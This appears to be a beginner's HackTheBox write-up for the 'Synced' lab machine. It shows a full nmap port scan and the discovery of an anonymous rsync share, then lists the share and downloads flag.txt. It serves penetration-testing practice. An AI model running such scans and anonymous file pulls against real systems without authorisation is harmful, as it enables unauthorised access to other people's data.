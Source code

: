 ## Synced HackTheBox
#### About This Room

----

#### Network Enum
`nmap -v -A -sV --privileged -T4 10.129.19.189 -p- -O -sC`

**`Result`**
|PORT|STATE|SERVICE|VERSION|
|---|---|---|---|
|873/tcp|open|rsync|protocol version 31|

we have something called rsync. Upon googling, I've come to know that, this particuler command is used to sync files/ folders between two remote host.

Now it's time to get into the remote host and see what it has.

#### Getting in with Rsync
Luckly we have `rsync` command already in our kali machine. no need to install it.

I googled out this command but got nothing special. So I used the `help` command for it: `rsync -h`

I got one command like this:
```bash
rsync [OPTION]... SRC [SRC]... rsync://[USER@]HOST[:PORT]/DEST
```
what I did basically is view what we have here. For that I've used the following command:
```bash
rsync -vv rsync://10.129.19.189:873/

## result
opening tcp connection to 10.129.19.189 port 873
sending daemon args: --server --sender -vvde.LsfxCIvu . /  (5 args)
public          Anonymous Share
```
We have a directory called **`public`**. Let's see what's inside.
```bash
rsync -vv rsync://10.129.19.189:873/public/

## Result

drwxr-xr-x          4,096 2022/10/25 04:02:23 .
-rw-r--r--             33 2022/10/25 03:32:03 flag.txt
```
we have a file called `flag.txt` which is our flag obviously.

Let's bring that thing to our machine
```bash
rsync -vv -a rsync://10.129.19.189:873/public/flag.txt ./
```
This will bring the file to our local directory (present working directory).
